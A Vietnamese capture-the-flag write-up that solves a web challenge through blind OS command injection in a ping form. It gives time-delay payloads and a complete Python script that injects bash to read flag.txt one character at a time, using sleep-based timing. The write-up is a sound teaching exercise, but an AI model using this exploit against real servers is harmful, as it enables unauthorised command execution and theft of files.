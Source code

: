 ## Task
 ![](https://hackmd.io/_uploads/H1n58dRoh.png)

Qua việc nhìn tên đề bài mình có thể đoán được rằng bài này sẽ được khai khác bằng **command injection**

# Recon

 ![](https://hackmd.io/_uploads/rk6ND_Rj3.png)

- Ở ngay trang đầu tiên ta có thể thấy được rằng trang web này sẽ cho phép người dùng kiểm tra kết nối với một trang web sử dụng lệnh **ping** nhưng khi ta thử

- ![](https://hackmd.io/_uploads/BkGAwOAj2.png)

- Vậy ta có thể thấy rằng thay vì in ra output như bình thường thì nó lại in ra thông báo hệ thống đang được bảo trì và đang ngắt kết nối mạng nhưng khi ta thử những payload khác
 ![](https://hackmd.io/_uploads/HkWL__Aon.png)
- Ta có thể thấy được rằng các payload không hề bị filter nên là ta có thể thoải mái thực hiện các payload khác nhau nhưng không nhìn thấy kết quả vậy ta phải làm thế nào
- Khi mở source code lên ta có thể thấy bất kể chúng ta làm gì đi chăng nữa thì ta vẫn sẽ nhận được dòng thông báo là đang bảo trì server do biến output đã bị thay đổi khi kết thúc hàm **index()**
 ![](https://hackmd.io/_uploads/SyQpa_Rsn.png)

# Exploit
- Đầu tiên ta phải có một cách nào để chắc chắn rằng mọi câu lệnh ta chạy vào bên trong đều được thực hiện nhưng làm thế nào để biết được rằng các câu lệnh đã được chạy và được thực thi? Đây chính là lúc mà ta thực hiện [**Blind OS command injection with time delay**](https://www.youtube.com/watch?v=KbWn4L2dcHU&ab_channel=RanaKhalil) 
- Khái quát một chút ta sẽ sử dụng độ trễ của server phản hồi để chắc chắn rằng chúng ta đang thực hiện một câu lệnh "OS"
- Đầu tiên ta sẽ thử với payload như sau```hostname=; sleep 5;``` sử dụng burp suite để có thể quan sát kỹ hơn 
 ![](https://hackmd.io/_uploads/HyfmoOCoh.png)
- Ta có thể thấy request bị trả về với khoảng thời gian là  ![](https://hackmd.io/_uploads/SyO_iu0o3.png)
- Vậy làm thế nào để có thể đọc được file flag.txt đây ta sẽ viết một file script để lấy flag nói cách khác chính là **bruteforce** 
- Để có thể build được một file script thì ta cần hai thứ thứ nhất chính là làm thế nào để biết được các ký tự có trong file flag.txt sử dụng câu lệnh **OS** thứ hai làm thế nào để có thể in ra được ký tự đó và nhận về kết quả cuối cùng
- Ta sẽ sử dụng lệnh **cut** và lệnh **cat** để có thể làm được điều đó
 ![](https://hackmd.io/_uploads/HyHGpuAo2.png)
- Câu lệnh này có nghĩa là đọc file **api.py** rồi cut lấy ký tự đầu tiên của file **api.py**
- Vậy là ta có cách để có thể lấy được ký tự đầu tiên của file giờ là làm thế nào để có thể in nó ra một cách chính xác và sử dụng time delay để lấy được flag
- Nhưng như ta đã biết việc in ra kết quả của biến output là không thể khi mà biến output đã biến đổi thành đoạn văn bản ta không cần vậy làm thế nào để có thể chạy được script đây
- Ta đến hướng thứ hai chính là việc sử dụng **if else** trong bash để có thể thứ nhất là so sánh với ký hiệu được **cat** ứng với ký tự gì trong bản chữ cái và ta sẽ sử dụng câu lệnh sau
 ![](https://hackmd.io/_uploads/HkWLfKAjn.png)
- Ta có thể hiểu câu lệnh trên đang lấy ký tự đầu rồi so sánh với chữ "i" nếu giống nhau thì in ra 'same' nếu không thì in ra 'not same' vạy nếu như ta thay bằng sleep thì sao nếu như giống thì sleep 2 giây không giống thì không sleep
- Vậy giờ khi đã có trong tay hướng đi sao ta không bắt đầu vào code nhỉ?
 ```python=
import requests
import time 

CHARSET = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_.{}-' # dùng để bruteforce

URL = 'http://34.130.180.82:59119/' # url của đề bài

FLAG = ''

proxies={"http":"http://127.0.0.1:8080"} #localhost

for index in range(1,50):
    print("[DEBUG] Đang bruteforce kí tự thứ ", index)
    for c in CHARSET:
        # Đây là payload exploit
        # Nếu đúng thì tui cho nó ngủ 2s
        # Nếu sai thì không ngủ
        INJECT = "; cmd=`cat flag.txt | cut -c {vitri}`; if [ $cmd = '{bruteforce}' ]; then sleep 2; else sleep 0; fi; #".format(
            vitri=index,
            bruteforce=c
        )
        # Sử dụng phương thức POST để có thể gửi dữ liệu đến url
        r = requests.post(URL, {'hostname': INJECT},proxies=proxies)
        thoi_gian_phan_hoi = r.elapsed.total_seconds()
        # Thì khi kết quả HTTP trả về, nó sẽ lưu vào .text của biến r
        #print("Tui đang thử kí tự thứ ",index," nè: ", c, "(time:",thoi_gian_phan_hoi,")")
        if thoi_gian_phan_hoi > 2:
            FLAG += c
            print("Tìm ra kí tự thứ ", index, "là ", c, "(FLAG:",FLAG,")")
            break

 ```
# Flag
 ![](https://hackmd.io/_uploads/HyH2mKAoh.png)

